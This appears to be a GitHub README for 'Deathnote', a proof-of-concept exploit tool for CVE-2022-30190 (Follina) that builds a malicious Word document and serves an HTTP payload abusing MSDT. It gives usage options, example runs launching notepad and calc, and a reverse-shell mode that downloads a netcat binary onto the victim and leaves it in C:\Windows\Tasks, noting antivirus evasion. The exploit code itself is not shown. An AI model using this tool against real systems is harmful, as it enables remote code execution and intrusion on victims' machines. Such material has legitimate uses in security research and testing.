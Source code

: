 # Deathnote
<p align="center">
 
<img src="https://media3.giphy.com/media/xT1XH3NIegS0FBc1K8/giphy.gif">

 </p>
 
### Proof of Concept of CVE-2022-30190

 `A remote code execution vulnerability exists when MSDT is called using the URL protocol from a calling application such as Word. An attacker who successfully exploits this vulnerability can run arbitrary code with the privileges of the calling application. The attacker can then install programs, view, change, or delete data, or create new accounts in the context allowed by the user’s rights.`

--------------

Create a "Deathnote" MS-MSDT attack with a malicious Microsoft Word document and stage a payload with an HTTP server.

# Usage

```
usage: follina.py [-h] [--command COMMAND] [--output OUTPUT] [--interface INTERFACE] [--port PORT]

options:
  -h, --help            show this help message and exit
  --command COMMAND, -c COMMAND
                        command to run on the target (default: Notepad)
  --output OUTPUT, -o OUTPUT
                        output maldoc file (default: ./Deathnote.doc)
  --interface INTERFACE, -i INTERFACE
                        network interface or IP address to host the HTTP server (default: eth0)
  --port PORT, -p PORT  port to serve the HTTP server (default: 8000)
```

# Examples

Pop `notepad.exe`:

```
$ python3 Deathnote.py   
[+] copied staging doc /tmp/9mcvbrwo
[+] created maldoc ./Deathnote.doc
[+] serving html payload on :8000
```

Pop `calc.exe`:

```
$ python3 Deathnote.py -c "calc"
```


### Get a reverse shell on port 4444. **Note, this downloads a netcat binary _onto the victim_ and places it in `C:\Windows\Tasks`. It does not clean up the binary. This will trigger antivirus detections unless AV is disabled.**
 
 Get `reverse shell` :
 
 ```
 python3 Deathnote.py -p 1234
 
 ```
